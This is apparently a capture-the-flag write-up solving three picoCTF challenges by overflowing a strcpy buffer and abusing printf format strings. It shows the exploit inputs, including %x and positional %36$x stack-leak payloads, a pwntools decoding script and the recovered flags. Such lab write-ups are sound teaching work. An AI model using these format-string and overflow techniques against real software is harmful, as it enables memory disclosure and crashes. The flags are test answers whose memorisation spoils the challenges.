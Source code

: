 # Buffer Overflow 0

On analysis of the given source code, I determined the following:
The flag is contained in `flag.txt` and is read into a `char` array `flag`
It reads an input from the user and on occurrence of a SIGSEGV error, it is handled by a function called `sigsegv_handler`
The program exits with a print message.

It is seen that whenever the input is a very large string(buffer overflow created), a sigsegv error is caused.
This seems to be because of the `strcpy` in the vuln function whenever it handles large strings.

The `sigsegv_handle` prints out the flag, so causing a buffer overflow is all you need to get the flag.

```
goosbo@pop-os:~$ nc saturn.picoctf.net 61459
Input: ffffffffffffffffffffffffffffffffffff
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
# Format String 0

On launching the instance, the following is printed:
```
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
```

To choose the right answer, I analysed the code until found this block:
```c
char choice1[BUFSIZE];
scanf("%s", choice1);
char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
if (!on_menu(choice1, menu1, 3)) {
    printf("%s", "There is no such burger yet!\n");
    fflush(stdout);
} else {
    int count = printf(choice1);
    if (count > 2 * BUFSIZE) {
        serve_bob();
    } else {
        printf("%s\n%s\n",
                "Patrick is still hungry!",
                "Try to serve him something of larger size!");
        fflush(stdout);
    }
}
```

The first part of the code basically checks if the input is one of the 3 possible options and prints an appropriate statement if it is not. The interesting part is in the `else` block.

`int count = printf(choice1);` here the size of choice1 is being stored in count. The very next statement is `if (count > 2 * BUFSIZE)` which implies that we need a string of size greater than 64(BUFSIZE is 32) to not exit the program before we get the flag but our 3 options do not seem to have length greater than 64.

But then I noticed the option `"Gr%114d_Cheese"`. `%114` is a format specifier and when it is passed into a printf statement, the function expects a number of length 114. But if it does not find this number, it prints garbage values from memory. So this option helps us bypass the requirement of a 64 length input while also using a valid choice.

```
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
```

```c
char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
```

The next stage does not have the same length requirements as before. But if we look at a function mentioned earlier:
```c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```

It is seen that the flag is printed if a sigsev error happens.

Just like before if we consider the only option with format specifiers which is `"Cla%sic_Che%s%steak"`, we should be able to access garbage values in memory. In this case `%s` which tries to access strings from memory might crash the program with a sigsev error and that seems to be the case.

```
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}
```

flag: `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}`

# flag leak

```python
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

On analyzing the vulnerable function in the file I notice that I could use format string vulnerability due to the dangerous use of `printf` with user input.

I could use format specifiers to get memory on the stack and that could contain the flag.

First I input a string of `%x` to get the values on the stack.
```
Tell me a story and then I'll tell you one >> %x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;%x;
Here's a story - 
ffdd2030;ffdd2050;8049346;253b7825;78253b78;3b78253b;253b7825;78253b78;3b78253b;253b7825;78253b78;3b78253b;253b7825;78253b78;3b78253b;253b7825;78253b78;3b78253b;253b7825;78253b78;3b78253b;253b7825;78253b78;3b78253b;253b7825;78253b78;3b78253b;253b7825;78253b78;3b78253b;253b7825;78253b78;3b78253b;253b7825;253b78;6f636970;7b465443;6b34334c;5f676e31;67346c46;6666305f;3474535f;
```

I notice that the repeated sequence of `253b7825;78253b78;3b78253b;` represents the input `%x;`. So the flag should start after this and is therefore `6f636970;7b465443;6b34334c;5f676e31;67346c46;6666305f;3474535f;`

On decoding this with the script:
```python
from pwn import *

s = '6f636970;7b465443;6b34334c;5f676e31;67346c46;6666305f;3474535f'

e = s.split(';')
m = b''
for i in e:
    m += p32(int(i,16))
print(m)
```

I get the output `b'picoCTF{L34k1ng_Fl4g_0ff_St4'`. It seems like I am not getting the full flag due to the 127 character limit of the input string.

I manually count and find out that `6f626970` which is the first value of the flag in stack memory is at the `36th` value of the stack.
I then use `%x` from the 36th value of the stack to an arbitrary end(in this case I checked until the 50th value of the stack).
```
Tell me a story and then I'll tell you one >> %36$x;%37$x;%38$x;%39$x;%40$x;%41$x;%42$x;%43$x;%44$x;%45$x;%46$x;%47$x;%48$x;%49$x;%50$x                                               
Here's a story - 
6f636970;7b465443;6b34334c;5f676e31;67346c46;6666305f;3474535f;395f6b63;32653939;7d343238;fbad2000;440b8200;0;ed541990;804c000
```

On running the same script,
```python
from pwn import *

s = '6f636970;7b465443;6b34334c;5f676e31;67346c46;6666305f;3474535f;395f6b63;32653939;7d343238;fbad2000;440b8200;0;ed541990;804c000'

e = s.split(';')
m = b''
for i in e:
    m += p32(int(i,16))
print(m)
```

I get the output: `b'picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}\x00 \xad\xfb\x00\x82\x0bD\x00\x00\x00\x00\x90\x19T\xed\x00\xc0\x04\x08'`

Therefore, the flag is `picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}`
